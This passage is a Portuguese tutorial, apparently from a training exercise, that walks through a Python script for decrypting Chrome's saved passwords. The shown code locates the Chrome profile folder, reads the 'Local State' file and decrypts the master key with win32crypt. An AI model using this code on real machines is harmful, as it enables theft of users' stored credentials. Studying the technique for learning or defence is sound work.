 <center><img src="/std/dojo/dojo-11.png"></center>

Esta task exigiu muita pesquisa para ser desenvolvida, pois o Chrome a partir da versão 80, incluiu metodos adicionais para encriptar as senhas armazenadas.

Basicamente todas as credenciais do Chrome são salvas em um banco `SQLite` que fica dentro no diretório `\Users\<usuário>\AppData\Local\Google\Chrome\User Data`.

Neste diretório, além do database SQLite, ele também grava a `Master Key` que é uma chave também encriptada em duas camadas que serve para descriptar as senhas do database.

O processo basicamente é de decriptar a Master Key, gerar uma cifra com ela, e em seguida utilizar esta cifra para decriptar os passwords.

Abaixo irei descrever cada parte do script e no final montar o script completo e executá-lo.

```python
#diretorio dos arquivos Chrome
path = os.path.expanduser('~') + r"\AppData\Local\Google\Chrome\User Data\\"
```

A biblioteca `os` nos permite executar uma série de comandos do sistema operacional, além de imprimir informações padróes do mesmo. Nesta parte do script, utilizo a função `os.path.expanduser('~')`. Esta função retorna o diretório raiz do usuário, por exemplo `C:\Users\usuario`. em seguida concateno este path com o caminho onde o chrome guarda seus dados resultando em algo do tipo `C:\Users\usuario\AppData\Local\Google\Chrome\User Data`.

```python
# Capturar e decriptar a master key
def master():
    with open(path + r"Local State", 'r') as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    key = key[5:]
    key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
    return key
```

Esta função abre o arquivo `Local State` dentro do path e o carrega no formato `JSON`. Dentro deste arquivo, nas chaves "os_crypt" -> "encrypted_key" que está codificada em `base64` se encontra uma string com a key. Em seguida a função `CryptUnprotectData` da biblioteca `win32crypt` desencripta a master key.
